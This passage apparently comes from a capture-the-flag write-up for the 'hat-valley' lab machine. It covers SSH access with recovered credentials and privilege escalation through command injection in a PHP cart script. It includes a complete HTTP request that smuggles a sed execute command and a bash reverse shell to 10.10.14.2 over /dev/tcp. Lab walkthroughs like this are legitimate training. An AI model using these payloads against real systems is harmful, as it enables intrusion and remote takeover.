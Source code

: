 Find credentials inside `.config/xpad/content-DS1ZS1` and log in SSH.
`bean.hill:014mrbeanrules!#P`

<br>

### Privilege Escalation

List processes with:
```
ps -ef --forest
```

These are interesting:
```bash
/bin/bash /root/scripts/notify.sh
inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv
```

But we need access to www-data to access leave_requests.csv

We can log into store.hat-valley.htb with `admin:014mrbeanrules!#P`

On /var/www/store/cart_actions.php the live above vulnerable to command injection in a similar way as before.
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {

	...
	system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
	...
```

Command injection request:
```
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 49
Origin: http://store.hat-valley.htb
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close
Referer: http://store.hat-valley.htb/cart.php

item=1/'+-e+"1e+/dev/shm/shell.sh"+'&user=0559-c1cd-524-cfcf&action=delete_item
```

Remember to put the reverse shell inside /dev/shm/shell.sh.
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.2/1337 0>&1
```
